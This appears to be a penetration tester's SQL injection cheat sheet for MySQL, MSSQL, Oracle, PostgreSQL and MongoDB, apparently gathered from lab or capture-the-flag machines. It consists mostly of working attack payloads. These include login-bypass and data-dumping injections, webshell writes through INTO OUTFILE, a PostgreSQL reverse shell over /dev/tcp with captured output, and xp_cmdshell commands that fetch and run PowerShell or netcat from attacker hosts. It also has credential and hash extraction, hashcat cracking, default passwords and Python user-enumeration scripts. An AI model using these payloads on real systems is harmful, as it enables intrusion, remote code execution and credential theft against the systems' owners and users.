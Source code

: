 # SQLi

<details>

<summary>Common SQLi payload</summary>

```sql
' OR 1=1-- -

# LIMIT X,1 to get the xth user (0 based).
' OR 1=1 LIMIT 1-- -
' or 1=1 LIMIT 0,1-- -

' OR '1'='1
```

</details>

### Determing which type of DB

| Type of DB | Method                                                           |
| ---------- | ---------------------------------------------------------------- |
| MySQL      | `SELECT @@version`                                               |
| SQLite     | `SELECT sqlite_version()`                                        |
| Microsoft  | `SELECT @@version`                                               |
| PostgreSQL | `SELECT version()`                                               |
| Oracle     | `SELECT banner FROM v$version`, `SELECT version FROM v$instance` |

### Commenting in SQL

<figure><img src="../.gitbook/assets/sql comments.jpg" alt=""><figcaption></figcaption></figure>

The figure above summarizes the syntax for commenting in various SQL DB. Do note that for MySQL, `-- -` is required for commenting instead of `--` as a whitespace or control character is required after the second dash.

> When using `#` as a comment for MySQL, there’s no need to add a space after.

### Nuances between diff DB

* Oracle requires every `SELECT` statement to include a `FROM` attribute. (`UNION SELECT NULL`will fail, need to be `UNION SELECT NULL FROM DUAL` instead) (`DUAL` is a globally accessible table)

<details>

<summary>SQLi to PHP Webshell (RCE)</summary>

```bash
debug.php?id=1 union all select 1, 2, "<?php echo '<pre>' . shell_exec($_GET['cmd']);?> . '</pre>';?>" into OUTFILE "c:/xampp/htdocs/backdoor.php"
```

```sql
union all select 1,2,3,4,"<?php echo shell_exec($_GET['cmd']);?>",6 into OUTFILE 'c:/inetpub/wwwroot/backdoor.php'
```

```sql
' UNION SELECT ("<?php echo passthru($_GET['cmd']);") INTO OUTFILE 'C:/xampp/htdocs/command.php'  -- -'  
```

</details>

#### Overview for SQLi <a href="#overview-for-sqli" id="overview-for-sqli"></a>

| No.   | Steps                                                                          | Method                                                                                                                                                                                                         |
| ----- | ------------------------------------------------------------------------------ | -------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| 1     | Identify instances where application access DB                                 | Look at URL param, cookies, POST data, HTTP headers                                                                                                                                                            |
| 2     | Try injecting SQL                                                              | Start with single quotes, concatenator characters, eg: `' 'FOO`                                                                                                                                                |
| 3     | Determine no. of cols                                                          | `' UNION SELECT NULL -- -`, `' UNION SELECT NULL,NULL -- -` … until there’s no error                                                                                                                           |
| 4.1   | Determine which cols have string data type                                     | `' UNION SELECT 'a', NULL, NULL -- -`, `' UNION SELECT NULL, 'a', NULL -- -`, `' UNION SELECT NULL, NULL, 'a' -- -` … until there’s no error                                                                   |
| 4.2   | Determine which cols have numeric data type                                    | `' UNION SELECT 1, NULL, NULL -- -`, `' UNION SELECT NULL, 1, NULL -- -`, `' UNION SELECT NULL, NULL, 1 -- -`… until there’s no error                                                                          |
| 4.3   | Use conditional responses if there’s no direct method of transmitting data     | `admin' and ASCII(SUBSTRING(password,1,1))=113 -- -` login succeeds means first char for password is `q`                                                                                                       |
| 4.4.1 | Use conditional errors if there’s no noticeable effect on application behavior | `SELECT 1/0 FROM dual WHERE (SELECT username FROM users WHERE username = 'alice') = 'alice'`. dual is default dummy table present in most DB. If query has error, means `alice` is a valid username            |
| 4.4.2 | Conditional errors (time delay)                                                | `' UNION SELECT IF(ASCII(SUBSTRING(@@version,1,1))=49,BENCHMARK(5000000,SHA1('dummy_data')),NULL),NULL,NULL -- -`. If first char of database version is `1` (ASCII: 49), will have delay in server’s response. |
| 5     | Extracting table and cols name                                                 | `' UNION SELECT table_name, column_name, NULL FROM information_schema.columns -- -`                                                                                                                            |
| 6.1   | Dumping DB using multi cols with string data type                              | `' UNION SELECT first_name, last_name, employee_id FROM dependents –- -`                                                                                                                                       |
| 6.2   | Dumping DB using 1 col with string data type                                   | `SELECT CONCAT(username,':',password), NULL, NULL from users -- -`                                                                                                                                             |
| 6.3   | Dumping DB using multi cols with numeric data type                             | `' UNION SELECT ASCII(SUBSTRING(password,1,1)),NULL,NULL FROM users WHERE username='admin' -- -` (returns 113, i.e., ‘q’)                                                                                      |
| 6.4   | Dumping DB using conditional responses                                         | `admin' and ASCII(SUBSTRING(password,1,1))=113 -- -` (login succeeds) ASCII 113 corresponds to letter ‘q’                                                                                                      |

<details>

<summary>Search for interesting table, col name</summary>

```sql
SELECT table_name,column_name FROM information_schema.columns where column_name LIKE '%PASS%'
```

</details>

<details>

<summary>Concat multi cols to single col</summary>

### Oracle

```sql
SELECT table_name||':'||column_name FROM
all_tab_columns
```

### MSSQL

```sql
SELECT table_name+':'+column_name from information_schema.columns
```

### MySQL

```sql
SELECT CONCAT(table_name,’:’,column_name) from information_schema.columns
```

</details>

#### Bypassing filters <a href="#bypassing-filters" id="bypassing-filters"></a>

| Types of blacklisting filter | Ways to bypass                                                                                                                                                                                                    |
| ---------------------------- | ----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| Strings                      | Use CHAR() function to construct strings. eg: `CHAR(109)+CHAR(97)` is equals to `'ma'`                                                                                                                            |
| Comments                     | Use `' OR 'a'='a` instead of `' OR 1=1 -- -`                                                                                                                                                                      |
| Keywords                     | Try mix of different cases, adding null byte in front, manipulating string, converting string to URL encoded form. Eg: `SELECT` is banned but can try `SeLeCt`, `%00SELECT`, `SELSELECTECT`, `%53%45%4c%45%43%54` |

#### SQLmap <a href="#sqlmap" id="sqlmap"></a>

| Types of attack                   | Methods                                                                                         |
| --------------------------------- | ----------------------------------------------------------------------------------------------- |
| POST request                      | `sqlmap -u <URL> --cookie='PHPSESSID=op2….' --data='user=a&pass=a' -p user --technique=B --dbs` |
| GET request                       | `sqlmap -u 'http://victim.site/view.php?id=1141' -p id --technique=U --dbs`                     |
| Using Request file from Burpsuite | `sqlmap -r <path to .req file> -p user –dbs`                                                    |

```
--dbs: show the databases connected to the application
-D database_name --tables: show all tables in db
-T table_name --columns: show all columns of the db
-C column1,column2  --dump: dump all the contents of the columns
```

<details>

<summary>Second Order SQLi</summary>

When data is first inserted into the DB, it is properly sanitised. Afterwards, it may be processed in unsafe ways.

Eg: When a user search for the term `O'Reilly`, the query term was `SELECT author,title,year FROM books WHERE publisher='O''Reilly'`. Notice how the quotation mark after `O` was escaped. However, when the `publisher` was being called in a later query, it might have the search string `SELECT * FROM publisher='O'Reilly'`. This causes second-order SQLi.

</details>

<details>

<summary>Interacting with SQL servers</summary>

#### MySQL

```bash
mysql --host=192.168.163.220 -u root -proot 
```

```sql
SHOW DATABASES;
```

```sql
USE <database_name>;
```

```sql
SHOW TABLES;
```

```sql
SELECT * FROM <table_name>;
```

#### NoSQL (eg: MongoDB)

```bash
apt-get install mongodb-clients
mongo --host 192.168.192.110:27017
```

* Tables in MySQL \~ Collections in Mongo
* Rows in MySQL \~ Documents in Mongo
* Columns in MySQL \~ Fields in Mongo
* $and equivalent to AND in MySQL
* $or equivalent to OR in MySQL
* $eq equivalent to = in MySQL

```sql
SHOW databases;
```

```sql
USE <database_name>;
```

```sql
SHOW collections;
```

```sql
db.<collection_name>.find();
```

### PostgreSQL

```sql
psql -U christine -h localhost -p 1234
```

List existing databases:

```
\l
```

Select a database:

```
\c <database_name>
```

List the database's tables:

```
\dt
```

Dump tables' content:

```sql
SELECT * FROM <table_name>;
```

</details>

<details>

<summary>Logging in to MySQL</summary>

```bash
mysql --host=192.168.163.220 -u root -proot 
```

</details>

<details>

<summary>Logging in to MongoDB</summary>

```bash

mongo --host 192.168.192.110:27017
```

</details>

<details>

<summary>Logging in to PostgreSQL</summary>

```bash
psql -h 192.168.208.47 -p 5437 -U postgres 
```

Creds to try:

```bash
postgres:<blank>
postgres:postgres
admin:admin
```

</details>

<details>

<summary>PostgreSQL to reverse shell</summary>

Tells the backend database to create a new table utilizing a cmd\_exe function which then use to initiate a reverse shell

```sql
'; CREATE TABLE cmd_exec(cmd_output text); --
```

```sql
'; COPY cmd_exec FROM PROGRAM 'bash -c ''bash -i >& /dev/tcp/10.10.14.225/1234 0>&1'''; -- 
```

```sql
postgres-# \l
                                                List of databases
   Name    |  Owner   | Encoding |  Collate   |   Ctype    | ICU Locale | Locale Provider |   Access privileges   
-----------+----------+----------+------------+------------+------------+-----------------+-----------------------
 postgres  | postgres | UTF8     | en_US.utf8 | en_US.utf8 |            | libc            | 
 template0 | postgres | UTF8     | en_US.utf8 | en_US.utf8 |            | libc            | =c/postgres          +
           |          |          |            |            |            |                 | postgres=CTc/postgres
 template1 | postgres | UTF8     | en_US.utf8 | en_US.utf8 |            | libc            | =c/postgres          +
           |          |          |            |            |            |                 | postgres=CTc/postgres
(3 rows)

postgres-# \c postgres
psql (15.2 (Debian 15.2-2), server 12.3 (Debian 12.3-1.pgdg100+1))
You are now connected to database "postgres" as user "postgres".
postgres-# CREATE TABLE cmd_exec(cmd_output text);
postgres=# COPY cmd_exec FROM PROGRAM 'bash -c ''bash -i >& /dev/tcp/192.168.45.5/80 0>&1''';


┌──(root㉿kali)-[/home/kali/Documents/pg_practice/192.168.159.60]
└─# nc -lvp 80  
listening on [any] 80 ...
192.168.159.60: inverse host lookup failed: Unknown host
connect to [192.168.45.5] from (UNKNOWN) [192.168.159.60] 44254
bash: cannot set terminal process group (177): Inappropriate ioctl for device
bash: no job control in this shell
postgres@326cfee15738:~/data$ whoami
whoami
postgres
```

</details>

<details>

<summary>Oracle SQLi</summary>

### Retrieve Current User

```bash
sdfas' AND 1=CTXSYS.DRITHSX.SN(user,(select user from dual))-- -
```

![](<../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png>)

`WEB_APP`

### Retrieve Database

```bash
sdfas' AND 1=CTXSYS.DRITHSX.SN(user,(SELECT SYS.DATABASE_NAME FROM DUAL))-- -
```

![](<../.gitbook/assets/image (20).png>)

`XE`

### Retrieve tables

* Can only retrieve on table name at a time

![](<../.gitbook/assets/image (53).png>)

```bash
admin' OR 1=CTXSYS.DRITHSX.SN(user,(SELECT username FROM (SELECT ROWNUM r,username,password FROM all_users ORDER BY username) WHERE r=1))-- AeSCD
```

### Bash scripting to retrieve all tables

```bash
for NUM in {1..1000}; do curl -sLkX POST --url <http://10.11.1.222:8080/blog/loginprocess.jsp> --data-urlencode "username=admin' OR 1=CTXSYS.DRITHSX.SN(user,(SELECT table_name FROM (SELECT ROWNUM r,table_name FROM all_tables ORDER BY table_name) WHERE r=${NUM}))-- AeSCD&password=sdfdsaf" | grep -E "^DRG.*" | cut -d ' ' -f 3 | sort -u; sleep 10; done
```

* Found `WEB_ADMINS` table

### Find Cols

```bash
for NUM in {1..1000}; do curl -sLkX POST --url <http://10.11.1.222:8080/blog/loginprocess.jsp> --data-urlencode "username=admin' OR 1=CTXSYS.DRITHSX.SN(user,(SELECT column_name FROM (SELECT ROWNUM r,column_name FROM all_tab_columns WHERE table_name = 'WEB_ADMINS') WHERE r=${NUM}))-- AeSCD&password=ASIJDSA" | grep -E "^DRG.*" | cut -d ' ' -f 3 | sort -u; sleep 10; done
```

* ADMIN\_ID
* ADMIN\_NAME
* PASSWORD

### Dump Cols

```bash
for NUM in {1..1000}; do curl -sLkX POST --url <http://10.11.1.222:8080/blog/loginprocess.jsp> --data-urlencode "username=admin' OR 1=CTXSYS.DRITHSX.SN(user,(SELECT ADMIN_NAME FROM (SELECT ROWNUM r,ADMIN_NAME FROM WEB_ADMINS ORDER BY ADMIN_ID) WHERE r=${NUM}))-- AeSCD&password=ASIJDSA" | grep -E "^DRG.*" | cut -d ' ' -f 3 | sort -u; sleep 10; done
```

* user named `admin`

```bash
for NUM in {1..1000}; do curl -sLkX POST --url <http://10.11.1.222:8080/blog/loginprocess.jsp> --data-urlencode "username=admin' OR 1=CTXSYS.DRITHSX.SN(user,(SELECT PASSWORD FROM (SELECT ROWNUM r,PASSWORD FROM WEB_ADMINS ORDER BY ADMIN_ID) WHERE r=${NUM}))-- AeSCD&password=ASIJDSA" | grep -E "^DRG.*" | cut -d ' ' -f 3 | sort -u; sleep 10; done
```

* password = `d82494f05d6917ba02f7aaa29689ccb444bb73f20380876cb05d1f37537b7892` —> `adminadmin`

</details>

<details>

<summary>MSSQLi</summary>

```sql
' OR 1=1-- -
' UNION SELECT @@version,1-- -
' UNION SELECT DB_NAME(), 1-- -
' UNION SELECT table_name, 1 FROM information_schema.columns-- -
' UNION SELECT name, 1 FROM syscolumns WHERE id = (SELECT id FROM sysobjects WHERE name = 'users')-- -
' UNION SELECT CONCAT(id,',',name,',',pass), 1 FROM users-- -
```

### ALWAYS TEST FOR xp\_cmdshell in SQLi

```bash
python3 mkpsrevshell.py 192.168.45.162 443
# powershell -e JABjAGwAaQBlAG4A...

# SQLi Query for xp_cmdshell PS rev shell
' EXEC xp_cmdshell 'powershell -e JABjAGwAaQBlAG4AdAAgAD...
```

### Manual xp\_cmdshell

```sql
#Check if Sysadmin --> will return 1
' UNION SELECT is_srvrolemember('sysadmin'), 1-- -

' UNION SELECT 'hi', 1;EXEC sp_configure 'show advanced options', 1-- -
' UNION SELECT 'hi', 1;RECONFIGURE-- -
' UNION SELECT 'hi', 1;EXEC sp_configure 'xp_cmdshell', 1-- -
' UNION SELECT 'hi', 1;RECONFIGURE-- -

' UNION SELECT 'hi', 1; EXEC xp_cmdshell "powershell -c IEX (New-Object Net.WebClient).DownloadString('http://192.168.45.189/runall.ps1')"-- -
# ' UNION SELECT 'hi', 1; EXEC xp_cmdshell 'powershell -c cd c:\windows\temp;wget http://192.168.45.197/nc64.exe -outfile nc64.exe'-- -
# ' UNION SELECT 'hi', 1; EXEC xp_cmdshell 'powershell -c c:\windows\temp\nc64.exe -e cmd.exe 192.168.45.197 443'-- -
```

### More advanced manual enumeration

```sql
# Determine the number of columns (see that col 2 is visible)
10' UNION SELECT 1,2,3,4,5,6-- -
# Show database name
10' UNION SELECT 1,(SELECT DB_NAME()),3,4,5,6-- -
# Show table names
10' union select 1, (SELECT STRING_AGG(name, ',') name FROM STREAMIO..sysobjects WHERE xtype= 'U'),3,4,5,6-- -
# Show column names
10' UNION SELECT 1,name,3,4,5,6 FROM syscolumns WHERE id =(SELECT id FROM sysobjects WHERE name = 'users')-- -
# Dump Usernames and Passwords
10' union select 1,CONCAT(username, ': ', password),3,4,5,6 FROM users-- -
```

### If JSON payload is caught by firewall, use UTF-16 instead

```python
# utf_converter.py
input=raw_input('> ').strip()
utf=[]
for i in input:
    utf.append("\\u00"+hex(ord(i)).split('x')[1])
print ''.join([i for i in utf])

-------
python2 utf_converter.py
a' UNION SELECT 1,2,3,4,5;-- -
```

<figure><img src="../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

### Obtain MSSQL Server Login Creds

<pre class="language-sql"><code class="lang-sql">' UNION SELECT name + '-' + master.sys.fn_varbintohexstr(password_hash), 1 FROM master.sys.sql_logins-- -
<strong>
</strong><strong>#Artist name: sa-0x020017264e939f9e1ec90ffd4c612716904c9a05f8f51ff0e2e470afd917b1bff2cf8248d2661539cc300512bffcf6898271e532ba7cb64cf85a97883f27f9868beae551539e - From the year: 1
</strong></code></pre>

SA hash:

* 0200 —>version (SHA-2 512bit)
* Salt (4 Bytes) —> 17264e93
* Hash (64 Bytes) —> 9f9e1ec90ffd4c612716904c9a05f8f51ff0e2e470afd917b1bff2cf8248d2661539cc300512bffcf6898271e532ba7cb64cf85a97883f27f9868beae551539e

Cracking with hashcat:

<pre class="language-bash"><code class="lang-bash"><strong># Hash.txt: &#x3C;hash>:&#x3C;salt>
</strong><strong># 9f9e1ec90ff...:17264e93
</strong><strong>hashcat -m 1710 -a 0 hash.txt rockyou.txt
</strong></code></pre>

</details>

<details>

<summary>Unique MSSQLi</summary>

### Susceptible to SQLi?

* put in `'` and crash occurred

### What the insert statement would look like

```sql
INSERT INTO users_DB (username, password) VALUES ('admin', 'admin')
```

### Where to get the Error-based MSSQL payloads?

[https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL)&#x20;

```sql
For integer inputs : convert(int,@@version)
For integer inputs : cast((SELECT @@version) as int)

For string inputs   : ' + convert(int,@@version) + '
For string inputs   : ' + cast((SELECT @@version) as int) + '
```

* However, the payloads will not work right off the bat because the context is that it’s an `insert` statement instead of the usual `select` statement.

### Show version MSSQL SQLi

```sql
' + cast((SELECT @@version) as int) + ')
```

so the new insert statement will be:

```sql
INSERT INTO users_DB (username, password) VALUES ('' + cast((SELECT @@version) as int) + ')', 'admin')
```

### Show DB in MSSQL

```sql
' + cast((SELECT DB_NAME()) as int) + ')
```

* DB name —> `newsletter`

### Show table names

* unable to dump more than 1 row at a time.
* concat all rows ([https://www.mytecbits.com/microsoft/sql-server/concatenate-multiple-rows-into-single-string](https://www.mytecbits.com/microsoft/sql-server/concatenate-multiple-rows-into-single-string))

```sql
' + cast((SELECT ',' + table_name AS 'data()' FROM information_schema.columns FOR XML PATH ('') ) as int) + ') 
```

* tables are called `users`

### Show Cols names

```sql
' + cast((SELECT ',' + column_name AS 'data()' FROM information_schema.columns FOR XML PATH ('') ) as int) + ') 
```

* Found cols: `email, userid, username`

#### Dump email,user\_id,username data

#### Dump Email

```sql
' + cast( (SELECT ',' + email AS 'data()' FROM users FOR XML PATH ('')) as int) + ') 
```

* Found the emails

#### Dump username

```sql
' + cast( (SELECT ',' + username AS 'data()' FROM users FOR XML PATH ('')) as int) + ')
```

* Found usernames

### Show all databases

```sql
' + cast( (SELECT ',' + name AS 'data()' FROM master..sysdatabases FOR XML PATH ('')) as int) + ')
```

* Found dbs

### Show table in archive DB

```sql
' + cast((SELECT name FROM archive..sysobjects WHERE xtype = 'U') as int) + ') 
```

* Found the `pmanager` table

### Show the cols in `archive` DB

```sql
' + cast((SELECT ',' + archive..syscolumns.name AS 'data()' FROM archive..syscolumns FOR XML PATH ('')) as int) + ') 
```

* Found this:

```sql
alogin ,id ,psw ,binary_message_body ,conversation_group_id ,conversation_handle ,fragment_bitmap ,fragment_size ,message_enqueue_time ,message_id ,message_sequence_number ,message_type_id ,next_fragment ,priority ,queuing_order ,service_contract_id ,service_id ,status ,validation ,binary_message_body ,conversation_group_id ,conversation_handle ,fragment_bitmap ,fragment_size ,message_enqueue_time ,message_id ,message_sequence_number ,message_type_id ,next_fragment ,priority ,queuing_order ,service_contract_id ,service_id ,status ,validation ,binary_message_body ,conversation_group_id ,conversation_handle ,fragment_bitmap ,fragment_size ,message_enqueue_time ,message_id ,message_sequence_number ,message_type_id ,next_fragment ,priority ,queuing_order ,service_contract_id ,service_id ,status ,validation
```

* There’s `id` and `psw`

### Dump the `psw` cols

```sql
' + cast((SELECT ',' + psw AS 'data()' FROM archive..pmanager FOR XML PATH ('')) as int) + ') 
```

Found password hashes

#### Dump `alogin` col

```sql
' + cast((SELECT ',' + alogin AS 'data()' FROM archive..pmanager FOR XML PATH ('')) as int) + ') 
```



</details>

<details>

<summary>Enumerate Domain Usernames from MSSQL Injection</summary>

```python
#!/usr/bin/env python2
import json
import requests
from time import sleep

url = 'http://10.10.10.179/api/getColleagues'

def unicode(str):
    utf = []
    for i in str:
        utf.append("\\u00" + hex(ord(i)).split("x")[1])
    return ''.join(i for i in utf)

sid = ''
for i in range(1, 29):
    payload = (
        "test' UNION SELECT "
        "SUBSTRING(SUSER_SID('MegaCorp\\Administrator'),{},1),2,3,4,5-- -"
    ).format(i)

    r = requests.post(
        url,
        data='{"name":"'+ unicode(payload) + '"}',
        headers={'Content-Type':'Application/json'}
    )
    id = json.loads(r.text)[0]["id"]
    if len(str(id)) == 1:
        id = '0' + str(id)
    else:
        id = hex(id).split('x')[1]
    sleep(2)
    sid += id

print "Full SID (hex): 0x%s" % sid

domain_sid = sid[:48]
print "Domain SID (hex): 0x%s" % domain_sid

rid = sid[48:]
print "RID (hex): 0x%s" % rid

```

<figure><img src="../.gitbook/assets/image (3).png" alt=""><figcaption><p>RID is 0xf401 in big endian, converting to little endian = 0x01f4 = 500 in decimal</p></figcaption></figure>

Bruteforce all the users with RID > 1100 to 1200:

```bash
import json
import requests
from time import sleep

url = 'http://10.10.10.179/api/getColleagues'

def unicode(str):
    utf=[]
    for i in str:
        utf.append("\\u00"+hex(ord(i)).split("x")[1])
    return ''.join(i for i in utf)

sid=''
for i in range(1100,1200):
    i=hex(i)[2:].upper()
    if len(i)<4:
        i='0'+i
    t=bytearray.fromhex(i)
    t.reverse()
    t=''.join(format(x,'02x') for x in t).upper()+'0'*4
    sid='0x0105000000000005150000001c00d1bcd181f1492bdfc236{}'.format(t)
    payload="test' UNION SELECT 1,SUSER_SNAME({}),3,4,5-- -".format(sid)
    r = requests.post(
        url,
        data='{"name":"'+ unicode(payload) + '"}',
        headers={'Content-Type':'Application/json'}
    )
    user=json.loads(r.text)[0]['name']
    if user:
        print user
    sleep(2)

```

<figure><img src="../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

</details>

<details>

<summary>MySQLi Upload Webshell</summary>

```
#Check if user has ability to write files
test' UNION SELECT 1,2,3,4,GROUP_CONCAT(user," : ",file_priv,"\n"),6 FROM mysql.user WHERE FILE_PRIV='Y'-- -
```

```
# Upload Webshell
Asus' union select '<?php system($_GET[\'cmd\']); ?>',2,3,4,5,6 into outfile 'c:/inetpub/wwwroot/command.php'#

# Interact with Webshell
curl 'http://10.10.10.167/command.php?cmd=whoami'
```

<figure><img src="../.gitbook/assets/image (352).png" alt=""><figcaption></figcaption></figure>

</details>

<details>

<summary>Links</summary>

[Burpsuite SQL Cheatsheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)

</details>
